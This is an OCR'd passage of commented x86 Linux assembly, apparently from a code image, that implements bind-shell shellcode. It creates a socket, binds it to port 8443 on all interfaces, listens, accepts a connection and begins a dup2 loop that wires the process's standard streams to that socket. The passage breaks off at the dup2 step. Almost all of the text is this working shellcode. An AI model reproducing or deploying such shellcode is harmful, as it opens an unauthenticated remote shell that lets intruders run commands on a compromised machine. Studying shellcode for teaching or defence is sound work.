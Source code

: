     push byte 0x01      ; SOCK_STREAM = 0x01
    push byte 0x02      ; AF_INET = 0x02 
    mov ecx, esp        ; copy arguments on the stack to ecx
    int 0x80            ; return sockfd to eax

    xchg edi, eax       ; store return sockfd on eax to edi

bind:
    ; socketcall
    push byte 0x66      ; socketcall = 102 ~ 0x66
    pop eax             ; eax = 0x66
    push byte 0x02      ; SYS_BIND = 0x02
    pop ebx             ; ebx = 0x2

    ; bind args
    push edx            ; INADDR_ANY = 0
    push word 0xfb20    ; PORT 8443 = 0x20fb
    push bx             ; AF_INET =  0x02 
    mov ecx, esp        ; copy arguments on the stack to ecx

    push byte 0x10      ; addr len default 16
    push ecx            ; &server_addr
    push edi            ; sockfd
    mov ecx, esp        ; copy arguments on the stack to ecx
    int 0x80

;    // Listen
;    listen(server_sock, 0);
listen:
    ; socketcall
    push byte 0x66      ; socketcall = 102 ~ 0x66
    pop eax             ; eax = 0x66
    push byte 0x4       ; SYS_LISTEN = 4 ~ 0x04
    pop ebx             ; ebx = 0x04

    ; arg listen(server_sock, 0)
    xor esi, esi        ; esi = 0
    push esi            ; esi = 0 
    push edi            ; edi = sockfd
    mov ecx, esp        ; copy arguments on the stack to ecx
    int 0x80

new_sock:
    ; socketcall
    push byte 0x66      ; socketcall = 102 ~ 0x66
    pop eax             ; eax = 0x66
    push byte 0x05      ; SYS_ACCEPT = 5 ~ 0x05
    pop ebx             ; ebx = 0x05

    ; arg accept(server_sock, NULL, NULL);
    push esi            ; null
    push esi            ; null
    push edi            ; sockfd
    mov ecx, esp        ; copy arguments on the stack to ecx
    int 0x80

    ; dup2 arg new_sock
    mov ebx, eax        ; newsockfd

    ; for looping 
    push byte 0x02      ; set counter 2
    pop ecx             ; ecx = 0x02

; dup2(new_sock, 0); 
; dup2(new_sock, 1);
; dup2(new_sock, 2);
dup2:
    ; dup2